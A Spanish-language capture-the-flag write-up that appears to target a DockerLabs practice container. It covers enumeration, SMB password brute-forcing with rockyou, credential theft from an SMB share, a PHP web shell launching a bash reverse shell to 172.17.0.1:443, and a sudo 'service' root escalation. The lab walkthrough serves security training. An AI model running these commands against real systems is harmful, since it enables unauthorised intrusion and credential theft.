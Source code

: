 nmap: 22,80,139,445

![image](https://github.com/user-attachments/assets/78d857c5-460d-42ce-94d6-3159515263ec)

---
hacemos un gobuster y nos da:

    gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,html,py,txt -t 64

![image](https://github.com/user-attachments/assets/b8a8ebeb-3b95-4134-a7fc-d1775b21470d)

    - info.php
    - productos.php

productos.php nos manda a otra pagina 

![image](https://github.com/user-attachments/assets/53410e19-348e-427a-94ea-322298cafe73)

en esa hay posibles contraseñas o usuarios como "shopo" o el codigo SHOPO20

haciendo un:
> enum4linux 172.17.0.2

nos da usuarios que tienen:

     - usuario1
     - usuario1
     - usuario3
     - satriani7
     - administrador

![image](https://github.com/user-attachments/assets/b54865f2-aa71-4d41-b4f6-bb8620adca3b)

hacemos una fuerza bruta: 

    sudo netexec smb 172.17.0.2 -u 'satriani7' -p /usr/share/wordlists/rockyou.txt  --ignore-pw-decoding 

da:
> santriani7/50cent

![image](https://github.com/user-attachments/assets/6faf8fb6-d6a8-4faa-8de6-bd3e44c9e241)

lo utilizamos para ver que ficheros tiene:

    smbmap -u 'satriani7' -p '50cent' -H 172.17.0.2

da:

    - myshare
    - backup24

![image](https://github.com/user-attachments/assets/36b341bc-287c-48d7-9386-0a2f917309fa)

nos conectamos ahora al "smb" 

    smbclient //172.17.0.2/backup24 -U 'satriani7%50cent'

dentro hay varios documentos
seguimos esta ruta: 
> Documentos > personal > get credentials.txt

![image](https://github.com/user-attachments/assets/5a4f3955-e87c-4c33-abe3-2be18a043f22)

en nuestra terminal lo leemos y tiene los usuarios y contraseñas

![image](https://github.com/user-attachments/assets/cd8931bd-d876-458e-af02-8cad7850d293)

entramos por el ssh con la de administrador

     administrador/Adm1nP4ss2024

![image](https://github.com/user-attachments/assets/bfcb74cb-b347-48cc-a77b-e790c3830b2a)

hacemos el comando: find / -user administrador 2>/dev/null
y encontramos esto

![image](https://github.com/user-attachments/assets/2bdc393e-152a-40ca-ad01-c1d6c6260651)

Sabiendo esto, podemos intentar crear un archivo que nos permita pasar al usuario "www-data"

vamos a la siguiente dirección:
> cd /var/www/html

creamos primero una carpeta llamada: shell.sh

    - #!/bin/bash
    - bash -i >& /dev/tcp/172.17.0.1/443 0>&1

ahora creamos una carpeta con php

      - <?php
      - system('./shell.sh')
      - ?>

ahora vamos al navegador que esten utilizando, en este caso firefox y colocamos: 
    http://172.17.0.2/shell.php
en el terminal victima colocamos en escucha: nc -nlvp 443 

![image](https://github.com/user-attachments/assets/3bcad5bf-8523-4102-b075-fc8b12a77519)

y estamos otra vez dentro

ahora un tratamiento stty

colocamos sudo -l
podemos escalar por "service". lo buscamos: https://gtfobins.github.io/gtfobins/service/#sudo

![image](https://github.com/user-attachments/assets/6ebcdfdf-56b2-43be-a118-d3441ee54ee9)

lanzamos el comando que nos da: 

    sudo service ../../bin/sh

bash -p

![[dockerlabs/facil/allien/root.png]]

y somos root! 
